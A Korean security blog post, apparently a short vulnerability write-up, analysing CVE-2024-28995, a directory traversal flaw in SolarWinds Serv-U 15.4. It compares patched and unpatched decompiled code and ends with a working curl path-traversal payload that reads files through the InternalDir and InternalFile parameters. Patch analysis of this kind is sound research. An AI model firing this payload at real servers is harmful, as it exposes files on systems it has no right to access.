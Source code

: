 ```yaml
---
title: "CVE-2024-28995 : SolarWinds 사 재품들의 Directory Traversal 취약점으로 인한 Information Leak"
author: j0ker
tags: [CVE-2024-28995, SolarWinds, Path Traversal, Information Disclosure, j0ker]
categories: [1day1line]
date: 2024-06-15 17:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

- https://attackerkb.com/topics/2k7UrkHyl3/cve-2024-28995/rapid7-analysis#/

## Target

- Serv-U FTP Server 15.4
- Serv-U Gateway 15.4
- Serv-U MFT Server 15.4

## Explain

취약점이 존재하는 버전인  `15.4.2.126` 과 핫픽스 버전인 `15.4.2.157`의 `Serv-U.dll`을 확인해보면 다음과 같이 코드에 체크하는 로직 하나가 추가된 것을 확인할 수 있습니다.

```jsx
  else
  {
    CSUString::MakeDirSeparator((CSUString *)&v35); // replace '/' characters with '\' character
    if ( (unsigned int)sub_1801A6A18(&v35, L"\\..\\", 0LL) == -1 ) // CString::Find
      CSUString::BuildLocalPath((CSUString *)&v35, qword_18046D5F8);
    else
      ATL::CSimpleStringT<wchar_t,1>::Empty(&v36);
  }
```

먼저 경로를 받으면 `/`를 `\`로 바꾸고 `\\..\\`가 존재하는 지 여부를 확인합니다. 이를 통해 Path Traversal 취약점이 존재했고 `/`를 사용해야 한다는 것을 추측해볼 수 있습니다.

패치된 함수들이 사용되는 곳들을 확인해보면 아래와 같은 코드를 확인할 수 있습니다.

```jsx
      get_request_parameter((__int64)v51, (QAnimationDriver *)v55, (__int64)L"InternalDir");
      get_request_parameter((__int64)v51, (QAnimationDriver *)&v42, (__int64)L"InternalFile");
      v14 = vulnerable_path_traversal_function((CSUString *)&v36, v56, v43, a1);
```

InternalDir과 InternalFile 파라미터를 사용할 때 해당 함수를 사용하는 것을 확인할 수 있습니다. 

지금까지 확인한 내용을 토대로 아래와 같이 페이로드를 구성하면 임의의 파일을 읽어올 수 있습니다.

```jsx
curl -i -k --path-as-is http://192.168.86.68/?InternalDir=/../../../../ProgramData/RhinoSoft/Serv-U/^&InternalFile=Serv-U-StartupLog.txt
```